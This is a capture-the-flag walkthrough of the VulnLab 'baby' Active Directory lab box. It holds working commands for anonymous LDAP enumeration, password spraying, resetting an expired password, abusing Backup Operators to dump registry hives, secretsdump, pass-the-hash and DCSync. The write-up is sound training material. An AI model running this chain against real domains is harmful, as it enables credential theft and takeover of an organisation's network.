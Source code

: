 ```yaml
---
layout: post
title:  "VulnLab | baby"
description: "Walkthrough of baby machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/baby/baby1.png
  alt: "baby.vl"
category: "VulnLab"
tags: ["Active Directory", "ldap", "STATUS_PASSWORD_MUST_CHANGE" ,"Backup Operators"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[baby](https://www.vulnlab.com/machines) is an easy rated windows box from vulnlab.The box is actually a domain controller running Active Directory Domain Services. The foothold consist of abusing the anonymous access to ldap service where we can read a default password in a user description. By spraying this password we can determine a user that haven't yet changed thier password. The privilege escalation part involve absing the rigths of Backup Operators group to get access to the machine account ntlm hash that can by used to perfom dcsync attack. 

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports... 
### All Open Ports
```bash
rustscan -a 10.10.116.81
```
![rustscan](./assets/img/ctf/vulnlab/baby/baby2.png)

### Services Scanning
```bash
nmap -p... -sC -sV -v -oN baby.full 10.10.116.81
```
```text
# Nmap 7.94SVN scan initiated Tue Nov 12 17:02:51 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3389,5357,5985,9389,49664,49667,49669,49674,49675,51102,51118 -sC -sV -v -oN baby.full 10.10.116.81
Nmap scan report for 10.10.116.81
Host is up (0.049s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 16:02:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-12T16:04:26+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Issuer: commonName=BabyDC.baby.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-26T09:03:15
| Not valid after:  2025-01-25T09:03:15
| MD5:   a63f:e0e6:9c19:ba19:0f14:2198:bd20:3eb3
|_SHA-1: 79c6:f752:73d0:6818:241e:6087:88b0:2a7f:b0bf:ec7f
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-12T16:03:47+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
51102/tcp open  msrpc         Microsoft Windows RPC
51118/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-12T16:03:48
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:04:28 2024 -- 1 IP address (1 host up) scanned in 96.54 seconds
```
### Hostname
```bash
echo '10.10.116.81  BabyDC.baby.vl  baby.vl'  >> /etc/hosts
```

## Foothold
The ldap service allows anonymous access. We can use ldapsearch tool to request informations about users, groups and other active directory objects.
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=User)' "sAMAccountName" | grep sAMAccountName
```
![Users](./assets/img/ctf/vulnlab/baby/baby3.png)
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=User)' | grep description -C 5
```
![users and description](./assets/img/ctf/vulnlab/baby/baby4.png)
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=Group)' | grep 'member:'
```
![Groups](./assets/img/ctf/vulnlab/baby/baby5.png)
```text
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ivan.Walker
```
From the previous ldap queries we manage to read a default password in  Teresa.Bell description and create a list of valid users. Next let's try to spray that password...
```bash
nxc smb baby.vl -u users.txt -p 'BabyS********'
```
![password spaying](./assets/img/ctf/vulnlab/baby/baby6.png)

The spraying tells us that our password is valid for user Caroline.Robinson (who is still using the default password). The password has expired so we need to set a new password. This can be done as following: 
```sh
smbpasswd -r 10.10.116.81 -U Caroline.Robinson
```
![caroline passwd change](./assets/img/ctf/vulnlab/baby/baby7.png)

```text
user: Caroline.Robinson
pass: NewP@ssw0rd
```
With the  new password, we can try to see what services we can access as Caroline.Robinson. We can we can PSRemote to the DC and we have RW on the C$ share.
```bash
nxc smb baby.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc winrm baby.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc smb baby.vl -u Caroline.Robinson -p NewP@ssw0rd --shares
```
![winrm](./assets/img/ctf/vulnlab/baby/baby8.png)
![smb shares](./assets/img/ctf/vulnlab/baby/baby9.png)

```bash
ldapdomaindump  'ldap://baby.vl' -u 'baby.vl\Caroline.Robinson' -p NewP@ssw0rd -o lootme
```
![ldap dom dump](./assets/img/ctf/vulnlab/baby/baby10.png)
```bash
evil-winrm -i baby.vl -u Caroline.Robinson -p NewP@ssw0rd
```
![evil-winrm](./assets/img/ctf/vulnlab/baby/baby11.png)


## Privilege Escalation
Our current user Caroline.Robinson is member of Backup Operators Group...
```powershell
net user Caroline.Robinson
```
![net user](./assets/img/ctf/vulnlab/baby/baby12.png)

```bash
reg.py baby.vl/Caroline.Robinson:'NewP@ssw0rd'@10.10.116.81  backup -o '\\10.10.116.81\C$'
```
![registry](./assets/img/ctf/vulnlab/baby/baby13.png)

```bash
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby14.png)

```bash
nxc smb baby.vl -u Administrator -H 8d992faed38128ae85e95f********
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby15.png)

```sh
secretsdump.py -hashes 'aad3b435b51404eeaad3b435b51404ee':'03f31d66e3ee8be794059*********' 'baby.vl'/'BabyDC$'@'10.10.116.81'
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby16.png)

```bash
nxc smb baby.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby17.png)

```bash
evil-winrm -i baby.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby18.png)

## Kill Chain Summary
1. Abuse ldap anonymous access to enumerate users, groups,...etc
2. Password spraying
3. Backup Operators Group rights abuse
4. Dcsync attack

## References
[reseting expired passwords](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)